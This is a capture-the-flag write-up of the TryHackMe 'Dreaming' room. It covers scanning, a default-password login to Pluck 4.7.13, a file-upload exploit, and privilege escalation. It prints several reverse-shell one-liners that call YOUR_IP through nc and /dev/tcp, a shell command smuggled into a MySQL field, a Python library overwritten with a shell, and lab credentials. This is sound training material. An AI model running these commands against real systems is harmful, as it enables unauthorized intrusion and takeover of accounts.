<h1>Dreaming – TryHackMe Challenge Writeup</h1>
A writeup documenting the complete Dreaming TryHackMe challenge, covering enumeration, exploitation of Pluck 4.7.13, gaining a reverse shell, SSH access, privilege escalation through MySQL, and finally obtaining higher-level access.  

Tools: 
•	Nmap 
•	Gobuster 
•	Linux Command-line   

Started with an nmap scan: 
<code>nmap -sC -sV 10.49.145.68</code>  
  
Then I looked for more directories using gobuster: 
<code>gobuster dir -u http://10.49.145.68 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt</code>  
  

So I navigated to /app:  
  

Then to pluck-4.7.13/ which led me to a website with only one line:  
  

Admin at the bottom was clickable so I clicked on it and it took me to a login page which takes only password input:  
  

I searched up Pluck 4.7.13 vulnerabilities and it was a remote file execution vulnerability. So I searched up default pluck 4.7.13 passwords which turned out to be just <code>password</code>. Just like that, I entered the website.  
  

I navigated to /upload from the url. I could manage files from there.  
  

Now, I can exploit pluck4.7.13 vulnerabilities. 
I looked up for any payloads for this vulnerability, exploit 49909 was the one. 
I downloaded the script using: 
<code>searchsploit -m php/webapps/49909.py</code> 
I uploaded this file.   
  

Let’s go to the website this shows.  
  

Now here I can execute my reverse shell commands. 
I set up a listener and executed the script: 
<code>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP 80 >/tmp/f</code> 
The netcat got the reverse shell.  
  

This says permission denied. So there’s more to it.  
  
  

We just got lucien’s credentials. Now we can ssh into the account. 
First, I had to fix how the reverse shell is. 
<code>python3 -c 'import pty; pty.spawn("/bin/bash")'</code> 
Now, it displays normal shell prompt. 
Then I connected to his account through ssh: 
<code>ssh lucien@10.48.153.70 -oHostKeyAlgorithms=+ssh-rsa</code> 
Pasted the password <code>HeyLucien#@1999!</code> and got access.  
  

<h2>Death Flag:</h2>
I tried to become the root user using sudo -l and found this:  
  
Then I got to bash_history where I found: 
<code>mysql -u lucien -plucien42DBPASSWORD</code> 
Upon entering this into the terminal, I immediately got access to mysql server.  
  

<code>INSERT INTO dreams (dreamer, dream) VALUES ('NoBody', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f)');</code>  
  
Then I exited and performed a reverse shell execution: 
<code>sudo -u death /usr/bin/python3 /home/death/getDreams.py</code>  
  

Listener on port 4444 caught the reverse shell and I became death.  
  

<h2>Morpheus Flag:</h2>
  
So I explored restore.py file:  
  
<code>echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/YOUR_IP/1234 0>&1'\")" > /usr/lib/python3.8/shutil.py</code>  
  
And just like that, I solved Dreaming Challenge on TryHackMe Challenges!
